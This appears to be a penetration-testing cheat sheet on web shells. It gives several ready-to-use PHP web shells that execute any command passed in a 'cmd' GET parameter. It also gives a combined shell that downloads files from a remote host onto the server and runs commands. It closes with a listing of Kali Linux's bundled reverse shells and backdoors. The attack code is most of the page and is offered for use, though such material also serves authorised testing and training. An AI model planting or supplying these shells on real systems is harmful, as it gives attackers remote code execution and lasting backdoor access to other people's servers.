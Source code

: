 # Web Shells

## WebShells

WebShells are simply shells that the user can interact with on a web interface, however we can build our own malicious shells to gain remote code execution or access to the target system.

### PHP WebShells

We can use some built-in functions to execute a shell, however you may want to [read this](https://stackoverflow.com/questions/1924939/among-request-get-and-post-which-one-is-the-fastest) first if you're not sure which request method to use.

Basically:

* You should use `$_GET` when someone is requesting data **from** the application.
* You should use `$_POST` when someone is pushing _\(inserting or updating ; or deleting\)_ data **to** the application.

system\(\):

```php
<?php system($_GET['cmd']);?>
```

shell\_exec\(\):

```php
<?php shell_exec($_GET['cmd']);?>
```

exec\(\):

```php
<?php exec($_GET['cmd']);?>
```

passthru\(\): 

```php
<?php passthru($_GET['cmd']);?>
```

Very functional shell:

```php
<?php
    echo "<pre>" . system($_GET['cmd']) . "</pre>";
?>
```

We can a create a more functional shell as follows:

```php
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```

## SecLists Shells

[SecLists](https://github.com/danielmiessler/SecLists) is an awesome collection of wordlists, it also includes webshells:

```text
SecLists/Web-Shells/
```

## Kali Linux Built-In WebShells

Kali Linux comes with some webshells in `asp, aspx, cfm, jsp, perl and php`which are under `/usr/share/webshells`:

```text
/usr/share/webshells/asp:
cmd-asp-5.1.asp
cmdasp.asp

/usr/share/webshells/aspx:
cmdasp.aspx

/usr/share/webshells/cfm:
cfexec.cfm

/usr/share/webshells/jsp:
cmdjsp.jsp
jsp-reverse.jsp

/usr/share/webshells/laudanum:
asp
aspx
cfm
helpers
jsp
php
wordpress
README

/usr/share/webshells/laudanum/asp:
dns.asp
file.asp
proxy.asp
shell.asp

/usr/share/webshells/laudanum/aspx:
shell.aspx

/usr/share/webshells/laudanum/cfm:
application.cfc
shell.cfm

/usr/share/webshells/laudanum/helpers:
shell.py

/usr/share/webshells/laudanum/jsp:
warfiles
cmd.war
makewar.sh

/usr/share/webshells/laudanum/jsp/warfiles:
META-INF
WEB-INF
cmd.jsp

/usr/share/webshells/laudanum/jsp/warfiles/META-INF:
MANIFEST.MF

/usr/share/webshells/laudanum/jsp/warfiles/WEB-INF:
web.xml

/usr/share/webshells/laudanum/php:
dns.php
file.php
hidden.php
host.php
killnc.php
php-reverse-shell.php
proxy.php
shell.php

/usr/share/webshells/laudanum/wordpress:
templates
laudanum.php

/usr/share/webshells/laudanum/wordpress/templates:
dns.php
file.php
host.php
ipcheck.php
killnc.php
php-reverse-shell.php
proxy.php
settings.php
shell.php

/usr/share/webshells/perl:
perl-reverse-shell.pl
perlcmd.cgi

/usr/share/webshells/php:
findsocket
php-backdoor.php
php-reverse-shell.php
qsd-php-backdoor.php
simple-backdoor.php

/usr/share/webshells/php/findsocket:
findsock.c
php-findsock-shell.php
```





